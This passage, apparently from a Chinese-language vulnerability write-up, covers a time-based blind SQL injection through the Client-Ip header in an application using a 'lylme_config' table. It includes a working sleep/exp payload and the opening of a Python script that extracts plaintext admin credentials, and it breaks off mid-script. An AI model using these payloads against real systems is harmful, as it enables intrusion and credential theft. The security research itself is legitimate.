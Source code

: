[![](assets/1701222538-a60d7d1a3c3130b1a37b504406bcc48e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135329-4a795364-8ce9-1.png)

但是这样我还是觉得不够的，因为当`if`判断正确的时候，语句延时之后还是会执行成功，然后又回到之前的问题，此时注入的效率就跟注入的目标数据成正相关的关系，实际解决这个问题办法很简单，只需要再sleep(5)执行之后再拼接一个`exp`即可

```plain
Client-Ip:0'>if(ord(substring(user(),1,1))=114,sleep(5)&exp(999),exp(999))>'
```

## 脚本自动化利用

系统的全局设置内容是从数据库的`lylme_config`表读出来的，里面包括后台账号密码且都是明文的形式

[![](assets/1701222538-aba170454a024bb6a4d9233fbf2be348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135353-583becd2-8ce9-1.png)

如下所示

[![](assets/1701222538-1c66d379e19102290dc1ba8fa1353135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135429-6db16c72-8ce9-1.png)

由于是SQL时间盲注，写一个快速利用脚本是有必要的。

```plain
def exploit(target, cookie, authcode, timeout=5):
    origin_payload = "select group_concat(v) from lylme_config where k like 'admin%'"
    # 获取长度
    length_payload = f"length(({origin_payload}))"
    # 延时5s
    if timeout < 1:
        timeout += 1
    length = 0
    while True:
        length += 1
        final_length_payload = f"0'>if({length_payload}={(length)},sleep({timeout})&exp(999),exp(999))>'"
        print(f"[*] Trying Length: {length}")
        r1 = post(target, cookie, authcode, final_length_payload)
        if r1.elapsed.total_seconds() > timeout-1:
```